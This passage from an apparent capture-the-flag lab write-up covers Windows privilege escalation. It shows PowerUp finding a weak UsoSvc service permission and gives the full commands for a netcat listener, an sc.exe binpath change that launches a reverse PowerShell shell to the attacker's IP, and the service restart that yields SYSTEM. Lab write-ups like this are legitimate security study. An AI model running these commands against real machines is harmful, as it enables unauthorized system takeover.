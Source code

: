 Now that the script is downloaded and we've imported the module, let's run the `Invoke-AllChecks` command.

```
> Invoke-AllChecks

[...]

[*] Checking service permissions...


ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True

[...]
```

Looks like we have a service that we can abuse. The Update Orchestrator or UsoSvc can be abused by allowing our current user to manipulate the service path so that when the service is stopped and started, it'll execute a command as system. [This article](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions) by Read Team Experiments gives a bit more detail.

The PowerUp script suggests a command in its results, `Invoke-ServiceAbuse`, but this didn't work consistently enough, so let's do it manually.

First, we'll listen on a new port for a reverse shell.

```
$ nc -lvnp 4446
```

Next, let's use `sc.exe` to configure the binpath of the UsoSvc service. We'll change it to a command that will run our Netcat executable to open reverse Powershell session at the port we specified.

```
> sc.exe config UsoSvc binpath="C:\Users\Public\Documents\nc.exe 10.10.15.50 4446 -e powershell.exe"
```

Now, let's stop and start the service.

```
> sc.exe stop usosvc
> sc.exe start usosvc
```

Back on our machine, our listener should connect, with a system shell. Let's grab the root flag!

![](images/root-flag.png)
